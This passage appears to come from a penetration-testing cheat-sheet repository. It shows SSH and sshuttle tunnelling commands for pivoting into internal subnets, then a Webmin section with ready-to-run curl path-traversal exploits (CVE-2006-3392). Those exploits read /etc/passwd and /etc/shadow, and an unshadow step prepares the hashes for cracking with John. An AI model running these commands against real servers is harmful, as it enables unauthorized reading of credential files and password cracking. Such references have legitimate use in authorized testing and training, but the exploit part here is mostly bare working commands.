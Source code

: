 # SSH

## Tunnels

### Simple ssh tunnel

ssh -L <src_port>:target:<dest_port> <user>@tunnel_ip -p <port>

`ssh -L 3389:10.0.0.1:3389  user@192.168.101.11 -p 2222`

### Creating VPN tunnel through ssh to any subnet

sshuttle -e "ssh <-i id_rsa_priv.key>" -r  user@tunnel_ip <subnet/CIDR> <Another_subnet/CIDR> &

`sshuttle -e "ssh -i bob.key" -r  bob@10.0.1.1 192.168.1.0/24 192.168.25.0/24 &`



---
File: /CheatSheets/webmin/readme.md
---

# Webmin

`export ip=172.20.10.5`

### Test for LFI & file disclosure vulnerability by grabbing /etc/passwd

Some servers can change root path, just change the URL path...

`curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd`

### Test to see if webmin is running as root by grabbing /etc/shadow

`curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow`


## You can use John to break it

unshadow passwd shadow > Hash

### Resources
* [CVE: CVE-2006-3392](https://www.exploit-db.com/exploits/2017/)


---
File: /CheatSheets/windows/enumaration/readme.md
---
